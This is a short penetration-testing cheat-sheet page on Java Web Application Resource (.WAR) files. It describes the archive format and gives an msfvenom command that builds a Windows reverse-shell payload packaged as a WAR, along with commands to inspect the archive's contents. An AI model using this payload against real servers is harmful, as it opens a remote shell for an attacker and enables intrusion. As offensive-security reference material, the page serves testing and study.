 ```yaml
---
description: Web Application Resource
icon: sim-card
---
```


# .WAR

A Web Application Resource is a single file container that holds all the potential files necessary for a Java-based web application. It can have Java Archives (.jar), Java Server Pages (.jsp), Java Servlets, Java classes, webpages, css, etc.

The `/WEB-INF` directory inside the archive is a special one, with a file named `web.xml` which defines the structure of the application.

**Create Malicious WAR files:**

Windows: msfvenom

```

msfvenom -p windows/shell_reverse_tcp LHOST=IP LPORT=4444 -f war > filename.war
```

**WAR files are basically ZIP files:**

```
head -c 16 filename.war | xxd
```



**Finding  JSP files:**

```
#Install
sudo apt install default-jdk

#Use jar to list content of the war file
jar tf revshell.war

#Curl .jsp file

```
